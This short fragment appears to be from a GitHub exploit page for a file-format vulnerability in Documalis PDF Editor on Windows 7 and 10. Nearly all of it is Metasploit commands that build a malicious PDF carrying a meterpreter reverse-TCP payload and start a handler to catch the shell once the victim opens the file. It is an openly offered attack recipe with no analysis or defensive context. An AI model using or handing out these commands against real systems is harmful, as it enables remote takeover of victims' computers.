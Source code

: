 Targets Win 7 and Win 10

Verification
use exploit/windows/fileformat/documalis_pdf_editor
set payload windows/meterpreter/reverse_tcp
set lhost (IP of Local Host)
run

use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set lhost (IP of Local Host)
run
Open PDF file and the vulnerability is triggered.
